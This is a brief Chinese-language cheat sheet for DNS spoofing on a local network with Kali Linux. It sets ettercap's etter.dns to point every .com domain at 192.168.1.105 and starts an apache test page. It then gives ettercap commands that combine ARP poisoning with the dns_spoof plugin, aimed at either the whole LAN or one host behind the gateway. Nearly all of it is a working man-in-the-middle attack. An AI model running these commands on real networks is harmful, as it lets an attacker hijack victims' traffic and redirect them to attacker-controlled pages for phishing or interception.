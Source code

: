 # kali linux 内网DNS欺骗
## 1.配置ettercap的dns文件
### vim /etc/ettercap/etter.dns
- redirect it to www.linux.org
- *.com A 192.168.1.105
- *.com/* A 192.168.1.105
## 2.修改测试页面启动apache
- vim /var/www/index.html
- service apache2 start
## ettercap欺骗
- ettercap -T -q -i eth0 -P dns_spoof -M arp ////（欺骗整个局域网）
- ettercap -T -q -i eth0 -P dns_spoof -M arp /(网关)/ /(IP)/（欺骗某个IP）
